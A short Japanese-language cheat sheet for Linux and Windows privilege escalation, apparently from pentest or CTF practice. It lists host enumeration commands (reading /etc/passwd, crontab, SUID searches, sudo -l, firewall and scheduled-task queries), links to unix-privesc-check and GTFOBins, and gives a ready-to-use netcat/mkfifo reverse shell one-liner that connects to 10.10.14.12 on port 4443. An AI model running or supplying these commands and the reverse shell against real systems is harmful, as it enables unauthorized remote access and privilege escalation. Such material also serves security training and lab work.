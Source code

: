 # Linux 権限昇格

### 基本チェック
`whoami`  
`id`  
`hostname`
`cat /etc/issue`  
`cat /etc/*-release`  
`cat /etc/passwd`  

`ps -aux`  
`ip -a`  
`netstat -ano`  
`/sbin/route`  
`ss -anp`  

`ls -lah /etc/cron*`  
`cat /etc/crontab`
`grep "CRON" /var/log/cron.log`

`dpkg -l`  
`find / -writable -type d 2>/dev/null`

`cat /etc/fstab`  
`mount`  

`/bin/lsblk`  
`lsmod`  
`/sbin/modinfo <module>`  

`find / -perm -u=s -type f 2>/dev/null`  


### 自動ツール
## unix-privesc-check  
`/bin/bash ./unix-privesc-check standard > output.txt`  
`/bin/bash ./unix-privesc-check detailed > output.txt`
http://pentestmonkey.net/tools/audit/unix-privesc-check


### 定期実行プロセスの調査


### sudo設定確認

許可されているコマンドの一覧を表示  
`sudo -l`

###  権限昇格用コマンドまとめ

reverse shell  
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4443 >/tmp/f

基本ここで検索すればOK  
https://gtfobins.github.io/

# Windows 権限昇格

### 基本チェック
`whoami`  
`net user`  
`net user <ユーザ名>`  
`hostname`

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`  

`tasklist /SVC`  
`ipconfig /all`  
`route print`  
`netstat -ano`

`netsh advfirewall show currentprofile`  
`netsh advfirewall firewall show rule name=all`  
`schtasks /query /fo LIST /v`
